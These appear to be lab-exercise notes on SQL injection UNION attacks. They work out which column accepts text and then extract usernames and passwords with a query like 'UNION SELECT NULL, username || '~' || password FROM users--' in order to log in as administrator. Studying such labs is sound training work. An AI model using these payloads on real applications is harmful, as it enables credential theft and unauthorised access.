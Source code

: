 Suppose that a query only returns one single column- the goal of this lab is to find which columns accept string data

' UNION SELECT username || '~' || password FROM users--

' UNION SELECT 'username' | | 'password' FROM users--

' UNION SELECT NULL,'a',NULL--  returns error but
' UNION SELECT NULL,'a'--  returns success

so from the successful query I was able to determine that the second column does indeed expect text.

Taking from the example- we know that the second column accepts text so all we have left to do is concatenate accordingly:

category=Gifts' UNION SELECT NULL, username || '~' || password FROM users--
![[Pasted image 20211206152538.png]]

This gives us the username and password separated by a ~


this is a double pipe sequence which is string concatenation operator on oracle. The injected query concatenates together the values of the username and pw fields separated by the ~ char.

Then we can login as the administrator accordingly.

